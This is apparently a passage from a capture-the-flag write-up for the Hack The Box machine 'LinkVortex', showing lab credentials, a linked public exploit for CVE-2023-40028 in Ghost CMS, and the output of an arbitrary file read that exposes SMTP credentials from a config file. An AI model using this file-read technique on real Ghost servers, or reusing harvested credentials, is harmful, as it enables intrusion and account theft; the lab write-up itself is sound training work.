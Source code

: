 ## Foothold

Found a match - admin@linkvortex.htb:OctopiFociPilfer45

Honestly, this is the worst box ever! It's super random, feels like there is no intended path. Even this password is in a "test" folder.

Using: [https://github.com/godylockz/CVE-2023-40028/tree/main](https://github.com/godylockz/CVE-2023-40028/tree/main)

<figure><img src="../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

It seems that we are running in a docker container...

```
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
```